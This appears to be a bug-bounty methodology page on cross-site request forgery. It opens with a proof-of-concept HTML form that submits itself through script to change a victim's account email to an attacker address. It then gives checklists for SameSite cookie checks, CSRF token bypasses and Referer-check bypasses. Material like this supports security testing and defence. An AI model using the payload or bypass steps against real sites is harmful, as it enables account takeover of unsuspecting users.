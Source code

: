 ## CSRF Methodology
<br/>

**General PoC**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
- [ ] `SameSite=Strict` - CSRF Not Possible
- [ ] `SameSite=LAX` - CSRF Only Possible on GET Request
- [x] `SameSite=NONE` - CSRF Possible

<br/>
<br/>

**[CSRF Token Bypasses](https://github.com/JoshMorrison99/Bug-Bounty/blob/main/csrf/csrf%20bypasses.md)**<br/>
- [ ] Change single character to check if CSRF token is being validated or not
- [ ] Change request method from POST to GET
- [ ] Remove value in CSRF token
- [ ] Remove CSRF token completely
- [ ] Send a valid CSRF token from other user

<br/>
<br/>

**[Referer Bypasses](https://github.com/JoshMorrison99/Bug-Bounty/blob/main/csrf/referer%20bypasses.md)**<br/>
- [ ] Check for bad regex
- [ ] Check for referer removed

